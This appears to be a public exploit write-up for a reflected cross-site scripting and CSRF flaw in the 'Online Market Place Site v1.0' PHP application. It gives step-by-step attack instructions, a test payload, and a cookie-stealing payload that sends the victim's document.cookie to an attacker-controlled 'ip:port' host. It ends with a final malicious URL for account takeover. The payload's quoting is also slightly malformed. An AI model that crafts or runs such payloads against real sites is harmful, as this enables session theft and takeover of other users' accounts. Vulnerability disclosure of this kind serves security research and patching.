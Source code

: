 # Exploit Title: Online Market Place Site v1.0 -  XSS and CSRF
# Date: April 17, 2022
# Vendor Homepage: https://www.sourcecodester.com/php/15273/online-market-place-site-phpoop-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/omps.zip
# Tested on: Parrot Linux, Apache, Mysql
# Vendor: oretnom23
# Version: v1.0
# Exploit Description:
# Online Market Place v1.0 suffers from Cross Site Scripting and Cross Site Request Forgery Vulnerability that allowing attackers to steal the cookies of other users(possible account takeover). 

---------------------------------------- To Exploit ---------------------------------------------------------

Step 1: Register and login as a seller.

Step 2: Goto product page click action and select view product, you can see url like
				http://localhost/omps/seller/?page=products/view_details&id=4

Step 3: The page parameter is the vulnerable to cross site scripting because it's not sanitizing the user input.

step 4: put the payload <img src='x' onerror=alert(1337)> and you will see the pop window that reflects 1337.

step 5: Now attacker can send malicious url to other user then perfom csrf and finally takeover their account.

For stealing the cookies : <img src='x' onerror=this.src=http://ip:port/?'+document.cookie;>

Final Payload : http://localhost/omps/seller/?page=<img src='x' onerror=this.src=http://ip:port/?'+document.cookie;>&id=4

--------------------------------------------------------------------------------------------------------------